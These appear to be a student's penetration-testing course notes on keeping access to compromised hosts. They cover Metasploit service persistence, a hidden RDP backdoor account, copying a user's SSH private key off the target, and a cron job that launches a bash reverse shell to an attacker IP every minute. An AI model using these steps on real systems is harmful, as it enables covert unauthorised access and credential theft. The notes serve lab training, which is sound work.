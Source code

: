 
Persistence is techniques to keep access when access is cut off
Gaining initial foothold is not enough, you need to setup and maintain persistent access to your target. 


#### Windows Persistence

##### Persistence via Services 

- identify vulnerable system you can exploit on target system 

After getting initial foothold and a meterpreter session search for **persistence_service** 

in msfconsole: 
- ``use persistence service`` (you need admin credentials for this module)
- change ``lport`` 
- in real life scenario change the service name to make sure that it blends in. 
- ``kill`` the sessions (no more sessions on target)

how to regain access with persistence? 
- restart msfconsole 
- use ``multi/handler ``
- set payload windows/meterpreter/reverse_tcp 
- set ``lhost`` and ``lport`` 
- exploit 

every time you run the handler the session is created. 



##### Persistence via RDP 

badblue_ext_overflow 
- identify vulnerable system on target 
- migrate to stable process in meterpreter 

Gain persistence: 
1. ``run getgui -e -u hacker -p hacked_123321 ``
	- getgui will check if RDP is enabled if not it will enable it and, add a user and hide it from login screen 
	- this command also provides a resource script to clean up

utilize rdp client to connect to new account created: 
- ``xfreerdp /u:hacker /p:hacked123321 /v:target_ip ``

login on screen with new credentials and open cmd (run as administrator): ``whoami /priv ``
``net user ``




#### Linux Persistence

##### Persistence via SSH keys

- Linux is deployed as a server operating system (to host applications) and as a result linux servers typically accessed remotely via services/protocol's such as ssh. 
- if ssh is enabled and running on a linux system you have compromised, you can take advantage of the ssh configuration to establish persistent access on the target system. 
- in most cases linux servers will have key-based authentication enabled for the ssh service, allowing users to access the linux system remotely without the need for password 
- After gaining access to a linux system, we can transfer the ssh private key of a specific user account to our system and use that ssh private key for all future authentication and access. 




ssh student@target_ip 
password: password 

- login into compromised account with ssh:  student@target_ip 
- ls -al 

we have two interesting folders: .ssh folder and a binary folder called wait. 
- cat wait  (when you are done delete the wait binary)
- cd .ssh/  (here we will find the private key, (generated with sshgn)), cat the content of the private key
- cat the other content in the ssh file 
- in your kali terminal: copy id_rsa onto our system with ``scp`` which will allow us to download a file from the target system to our kali system, via ssh: ``scp student@target_ip:~/file_you_want_to_download location_file ``
			 - ``~/.ssh/id_rsa .``  (the ``.`` means you want to copy it to the directory you currently in)

- give the id_rsa file the permissions that typically associated with private keys : ``chmod 400 id_rsa ``

Log back into the system with ssh and compromised account (for simulation purpose do not do this in pentest)
- when you are SUPER SURE that you downloaded the rsa key you remove the wait file: ``rm wait `` which will reset the connection. 

Even when the user changes the password, we can still login using the **rsa private key.** 
- ``ssh  -i name_privatekey_file user@target_ip ``










##### persistence via Cron Jobs 

- Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule
- An application or script that has been configured to be run repeatedly with Cron is known as a Cron job. 
- We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system. 
- anatomy of a cron job: ![[Pasted image 20230925152000.png]]
first 5 fields are used to specify the time and date 

- log onto system with compromised user credentials using ssh: ``ssh user_name@target_ip ``
- One we set up our crownjob we remove the binary wait to reset and simulate what would happen if the users password would change, taking away our accesspoint. 
- ``cat /etc/cron ``  or crontac 
- create cronjob that runs every minute of the day,month,year : 
  ``echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/kali_ip/port_netcat_listernet 0>&1'" > cron``
  

    - `/bin/bash -c`: This part specifies the shell to use, in this case, `/bin/bash`, and the `-c` option indicates that the following command should be executed by the shell.
        
    - `'bash -i >& /dev/tcp/kali_ip/port_netcat_listner 0>&1'`: This part is the actual command to run. It executes `/bin/bash` with the `-i` option, which stands for "interactive." This means it opens an interactive shell session. The `>& /dev/tcp/kali_ip/port_netcat_listernet` part is a redirection that sends both standard input (`0`) and standard output (`1`) to a network socket specified as `/dev/tcp/kali_ip/port_netcat_listernet`.
  
- ``cat cron ``
- add the cron job: ``crontab -i cron ``
- ``crontab -l ``

(removing the wait file is for simulation purposes only)

- SET UP NETCAT LISTNER: ``nc -nvlp 1234`` (the port should be the same as specified in cronjob command)

